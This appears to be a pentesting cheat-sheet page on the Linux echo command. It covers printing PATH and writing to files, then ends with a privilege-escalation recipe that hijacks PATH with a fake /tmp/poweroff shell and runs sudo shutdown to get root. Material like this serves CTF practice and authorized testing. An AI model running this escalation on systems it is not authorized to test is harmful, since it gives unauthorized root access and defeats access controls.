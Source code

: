```yaml
---
title: Echo
desc: In addition to the output of string, there are other uses such as the privileges escalation.
tags: [Linux, PrivEsc]
alts: []
website:
---
```


## Directories specified by PATH

```sh
echo $PATH
```

<br />

## Add text to file

```sh
# Add text
echo "Hello World" >> sample.txt

# Overwrite (original contents disappears)
echo "Hello World" > sample.txt

# Enable escape
echo -e "Hello\nWorld" > sample.txt
```

<br />

## Privilege Escalation

```sh
# option 1
echo /bin/sh > /tmp/poweroff
# option 2
echo /bin/bash > /tmp/poweroff

chmod +x /tmp/poweroff
export PATH=/tmp:$PATH

# Some SUID command
sudo /usr/sbin/shutdown

# Then you are root user
root>
```